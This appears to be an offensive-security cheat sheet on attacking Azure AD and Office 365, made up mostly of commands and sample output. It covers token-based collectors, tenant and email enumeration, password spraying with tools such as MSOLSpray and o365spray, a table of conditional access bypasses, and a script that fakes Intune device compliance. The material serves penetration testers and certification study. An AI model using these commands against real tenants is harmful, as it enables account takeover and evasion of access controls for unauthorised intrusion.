 # Azure AD Enumerate

## Azure AD - Collectors

* roadrecon
    ```ps1
    roadrecon auth --access-token eyJ0eXA...
    roadrecon auth --prt-cookie <primary-refresh-token> -r msgraph -c "1950a258-227b-4e31-a9cf-717495945fc2"
    roadrecon gather
    ```
* AzureHound
    ```ps1
    ./azurehound --refresh-token <refresh-token> list --tenant "<target-tenant-id>" -o output.json
    ```


## Azure AD - User Enumeration

### Enumerate Tenant Informations

* Federation with Azure AD or O365
    ```powershell
    Get-AADIntLoginInformation -UserName <USER>@<TENANT NAME>.onmicrosoft.com
    https://login.microsoftonline.com/getuserrealm.srf?login=<USER>@<DOMAIN>&xml=1
    https://login.microsoftonline.com/getuserrealm.srf?login=root@<TENANT NAME>.onmicrosoft.com&xml=1
    ```
* Get the Tenant ID
    ```powershell
    Get-AADIntTenantID -Domain <TENANT NAME>.onmicrosoft.com
    https://login.microsoftonline.com/<DOMAIN>/.well-known/openid-configuration
    https://login.microsoftonline.com/<TENANT NAME>.onmicrosoft.com/.well-known/openid-configuration
    ```


### Enumerate Emails

> By default, O365 has a lockout policy of 10 tries, and it will lock out an account for one (1) minute.

* Validate email 
    ```powershell
    PS> C:\Python27\python.exe C:\Tools\o365creeper\o365creeper.py -f C:\Tools\emails.txt -o C:\Tools\validemails.txt
    admin@<TENANT NAME>.onmicrosoft.com   - VALID
    root@<TENANT NAME>.onmicrosoft.com    - INVALID
    test@<TENANT NAME>.onmicrosoft.com    - VALID
    contact@<TENANT NAME>.onmicrosoft.com - INVALID
    ```
* Extract email lists with a valid credentials : https://github.com/nyxgeek/o365recon
    ```powershell
    Install-Module MSOnline
    Install-Module AzureAD
    .\o365recon.ps1 -azure
    ```


### Password Spraying

The default lockout policy tolerates 10 failed attempts, then lock out an account for 60 seconds.

* [dafthack/MSOLSpray](https://github.com/dafthack/MSOLSpray)
    ```powershell
    PS> . C:\Tools\MSOLSpray\MSOLSpray.ps1
    PS> Invoke-MSOLSpray -UserList C:\Tools\validemails.txt -Password <PASSWORD> -Verbose
    PS> Invoke-MSOLSpray -UserList .\userlist.txt -Password Winter2020
    PS> Invoke-MSOLSpray -UserList .\users.txt -Password d0ntSprayme!
    ```
* [0xZDH/o365spray](https://github.com/0xZDH/o365spray)
    ```powershell
    o365spray --spray -U usernames.txt -P passwords.txt --count 2 --lockout 5 --domain test.com
    ```

## Azure Services Enumeration

### Enumerate Tenant Domains

Extract openly available information for the given tenant: [aadinternals.com/osint](https://aadinternals.com/osint/)

```ps1
Invoke-AADIntReconAsOutsider -DomainName <DOMAIN>
Invoke-AADIntReconAsOutsider -Domain "company.com" | Format-Table
Invoke-AADIntReconAsOutsider -UserName "user@company.com" | Format-Table
```


### Enumerate Azure Subdomains

```powershell
PS> . C:\Tools\MicroBurst\Misc\InvokeEnumerateAzureSubDomains.ps1
PS> Invoke-EnumerateAzureSubDomains -Base <TENANT NAME> -Verbose
Subdomain Service
--------- -------
<TENANT NAME>.mail.protection.outlook.com Email
<TENANT NAME>.onmicrosoft.com Microsoft Hosted Domain
```

### Enumerate Services

* Using Az Powershell module
    ```powershell
    # Enumerate resources
    PS Az> Get-AzResource

    # List all VM's the user has access to
    PS Az> Get-AzVM 

    # Get all webapps
    PS Az> Get-AzWebApp | ?{$_.Kind -notmatch "functionapp"}

    # Get all function apps
    PS Az> Get-AzFunctionApp

    # List all storage accounts
    PS Az> Get-AzStorageAccount

    # List all keyvaults
    PS Az> Get-AzKeyVault

    # Get all application objects registered using the current tenant
    PS AzureAD> Get-AzureADApplication -All $true

    # Enumerate role assignments
    PS Az> Get-AzRoleAssignment -Scope /subscriptions/<SUBSCRIPTION-ID>/resourceGroups/RESEARCH/providers/Microsoft.Compute/virtualMachines/<VM-NAME>
    PS Az> Get-AzRoleAssignment -SignInName test@<TENANT NAME>.onmicrosoft.com

    # Check AppID Alternative Names/Display Name 
    PS AzureAD> Get-AzureADServicePrincipal -All $True | ?{$_.AppId -eq "<APP-ID>"} | fl
    ```

* Using az cli
    ```powershell
    PS> az vm list
    PS> az vm list --query "[].[name]" -o table
    PS> az webapp list
    PS> az functionapp list --query "[].[name]" -o table
    PS> az storage account list
    PS> az keyvault list
    ```


## Conditional Access Policy

Conditional Access is used to restrict access to resources to compliant devices only.

* Enumerate Conditional Access Policies: `roadrecon plugin policies` (query the local database)

| CAP                       | Bypass  |
|---------------------------|---------|
| Location / IP ranges      | Corporate VPN, Guest Wifi |
| Platform requirement      | User-Agent switcher (Android, PS4, Linux, ...) |
| Protocol requirement      | Use another protocol (e.g for e-mail acccess:  POP, IMAP, SMTP) |
| Azure AD Joined Device    | Try to join a VM (Work Access)|
| Compliant Device (Intune) | Fake device compliance |
| Device requirement        | / |
| MFA                       | / |
| Legacy Protocols          | / |
| Domain Joined             | / |


Bypassing conditional access by faking device compliance

```powershell
# AAD Internals - Making your device compliant
# Get an access token for AAD join and save to cache
Get-AADIntAccessTokenForAADJoin -SaveToCache
# Join the device to Azure AD
Join-AADIntDeviceToAzureAD -DeviceName "SixByFour" -DeviceType "Commodore" -OSVersion "C64"
# Marking device compliant - option 1: Registering device to Intune
# Get an access token for Intune MDM and save to cache (prompts for credentials)
Get-AADIntAccessTokenForIntuneMDM -PfxFileName .\d03994c9-24f8-41ba-a156-1805998d6dc7.pfx -SaveToCache 
# Join the device to Intune
Join-AADIntDeviceToIntune -DeviceName "SixByFour"
# Start the call back
Start-AADIntDeviceIntuneCallback -PfxFileName .\d03994c9-24f8-41ba-a156-1805998d6dc7-MDM.pfx -DeviceName "SixByFour"
```


## Multi Factor Authentication

* [dafthack/MFASweep](https://github.com/dafthack/MFASweep) - A tool for checking if MFA is enabled on multiple Microsoft Services
```ps1
Import-Module .\MFASweep.ps1
Invoke-MFASweep -Username targetuser@targetdomain.com -Password Winter2020
Invoke-MFASweep -Username targetuser@targetdomain.com -Password Winter2020 -Recon -IncludeADFS
```


## References

* [Bypassing conditional access by faking device compliance - @DrAzureAD - September 06, 2020](https://o365blog.com/post/mdm/)
* [CARTP-cheatsheet - Azure AD cheatsheet for the CARTP course](https://github.com/0xJs/CARTP-cheatsheet/blob/main/Authenticated-enumeration.md)
* [Attacking Azure/Azure AD and introducing Powerzure - SpecterOps - Ryan Hausknecht - Jan 28, 2020](https://posts.specterops.io/attacking-azure-azure-ad-and-introducing-powerzure-ca70b330511a)